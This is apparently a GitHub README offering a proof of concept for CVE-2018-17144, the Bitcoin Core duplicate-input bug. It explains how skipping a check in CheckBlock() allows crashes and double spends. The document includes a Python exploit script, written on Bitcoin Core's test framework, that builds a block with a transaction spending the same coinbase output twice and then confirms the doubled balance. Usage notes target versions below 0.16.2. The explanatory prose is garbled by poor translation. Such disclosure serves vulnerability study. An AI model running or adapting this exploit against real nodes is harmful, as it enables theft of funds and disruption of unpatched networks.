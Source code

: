 # PoC of BitcoinCore Denial-Of-Service and DoubleSpending CVE-2018-17144
On 18/19 September, bitcoin Core, the mainstream client of Bitcoin, published an article on the serious security of its code.
A denial-of-service vulnerability exploitable by miners has been discovered in Bitcoin Core versions 0.14.0 up to 0.16.2. It is recommended to upgrade any of the vulnerable versions to 0.16.3 as soon as possible. 
bitcoincore.org : Security issue CVE-2018-17144: it was discovered that older versions of Bitcoin Core will crash if they try to process a block containing a transaction that attempts to spend the same input twice. Such blocks are invalid, so they can only be created by a miner willing to sacrifice their allowed income for creating a block of at least 12.5 BTC (about $80,000 USD as of this writing). This release eliminates the crash, allowing the software to quietly reject such invalid blocks.
# Vulnerability disclosure
On the master code branch of Bitcoin Core, commit b8f8019 fixes this vulnerability, such as :  https://github.com/bitcoin/bitcoin/commit/b8f801964f59586508ea8da6cf3decd76bc0e571
This code is located in the CheckBlock() function in src/validation.cpp, which receives new in the node.
The block is called. The meaning of the CheckTransaction() function called on line 3125 and its third argument can be
Analyze according to its code implementation.
``` 
bool CheckTransaction(const CTransaction& tx, CValidationState &state, bool CheckDuplicateInputs)
{
  // ......
  // Check for duplicate inputs - note that this check is slow so we skip it in CheckBlock
  if (fCheckDuplicateInputs) {
    std::set<COutPoint> vInOutPoints;
    for (const auto& txin : tx.vin)
    {
      if (!vInOutPoints.insert(txin.prevout).second)
        return state.DoS(100, false, REJECT_INVALID, "bad-txns-inputs-duplicate");
    }
    }
    // ...... 
}
```
####  CheckTransaction() function
The CheckTransaction() function detects incoming transaction messages (CTransaction&tx), where
This includes detecting whether a transaction has a double flower. The detection scheme is very simple and will compare this to all Coin used in the transaction.
(Ttex.prevout in the code, which represents UTXO in Bitcoin transactions. This article is followed by the word Coin.
Representation, in order to be consistent with the code), is recorded in std::set, if it is found that a record is repeatedly recorded twice, it will return
Back to the failed message (state.DoS), this message will eventually be fed back to the sender of the block through the P2P channel.
Based on the comments section in the code snippet, it can be seen that this detection code is in the process of being called by the CheckBlock() function.
It is considered redundant and time consuming, and is skipped by setting the third parameter of the function to False.
CheckBlock() performs a selection to skip the double-check, because its subsequent actions will be more for transactions in the entire block.
Complex and comprehensive inspection. However, these inspection codes failed to detect and dispose of certain anomalies as expected.
Caused the existence of a loophole.

## DoS Attack PoC
Bitcoin's master code branch, commit b8f8019 (the vulnerability fix mentioned earlier)
The child commit 9b4a36e gives the validation code for the vulnerability.
This test code written in Python is located at test/functional/p2p_invalid_block.py
In the script. The script builds a test network, and the test code can be connected via RPC interface, P2P interface, etc.
Go to the target node and send test data, such as maliciously constructed block data, transaction information, and so on.
The function of the trial code is to find the second transaction (vtx[2]) in the block2_orig block and enter the transaction into it.
The first Coin(vtx[2].vin[0]) is repeatedly added to the input sequence to construct a vtx[2].vin[0]
Make a double spend transaction message. As shown in line 92, when the block2_orig block is sent to the node side of the fixed vulnerability,
The node will receive a refusal to receive the message, and the message content is “bad-txns-duplicate”.
If you use the code for this test to test a node that has not been fixed.
The block data maliciously constructed by the test script caused the target node to crash, resulting in the Python script and the node process.
The P2P connection between them is broken, causing a ConnectionResetError to be thrown.

## Double Spend Attack PoC

The official PoC gives an indication of the DoS attack. However, this PoC is in a test network with only one node
Run, and the unlock script for all transaction data is set to "anyone can spend." Due to its particularity, for
Verify that the double-spend attack lacks a certain persuasive power. Therefore, this article is based on the test framework of Bitcoin Core.

The three roles in the test are shown in As N0 and N1. N0 stands for attacker maliciously written using Python programs
P2P service, constructing malicious block data; N1 represents one of many normal nodes, and is a neighbor node of N0.Pass the P2P interface for message delivery. The key code of the test script is as follows.


``` 
def run_test(self):
  # Preparation Works ...... # Generate the block1 to let node0 get 50 BTC as the initial funding
  block1 = create_block(tip, create_coinbase(height, n0_pubk), block_time)
  block1.solve()
  node0.p2p.send_blocks_and_test([block1], node0, success=True, timeout=60)
  # Mature the block, make the mined BTC usable. node0.generatetoaddress(100, node0.get_deterministic_priv_key().address)
  assert(node0.getbalance() == 50) # node0 get the reward as a miner
  # craft a new transaction, which double spend the coinbase tx in block1
  tx2_raw = node0.createrawtransaction(
    inputs = [{"txid": block1.vtx[0].hash, "vout": 0}, {"txid": block1.vtx[0].hash, "vout": 0}], 
    outputs = {n1_addr: 100}
  )
  tx2_sig = node0.signrawtransactionwithwallet(tx2_raw)
  assert_equal(tx2_sig["complete"], True)
  tx2_hex = tx2_sig["hex"]
  tct2 = CTransaction()
  tct2.deserialize(BytesIO(hex_str_to_bytes(tx2_hex)))
  # Preparation for generate block2 ......
  block2 = create_block(tip, create_coinbase(height), block_time)
  block2.vtx.extend([tct2])
  block2.hashMerkleRoot = block2.calc_merkle_root()
  block2.solve()
  node0.p2p.send_blocks_and_test([block2], node0, success=True, timeout=60)
  # Check the balances
  assert(node0.getbalance() == 0)
  assert(node1.getbalance() == 100)
  self.log.info("Successfully double spend the 50 BTCs.")
```

### Usage Notes : 
 - It Directly Work with :  https://github.com/bitcoin/bitcoin/tree/master/test/functional/test_framework
 - Move The PoC To the Folder Containg the Bitcoin Soursecode
 - Version Bitcoin < 0.16.2
 - Don't Use It for maliciously Activity
 




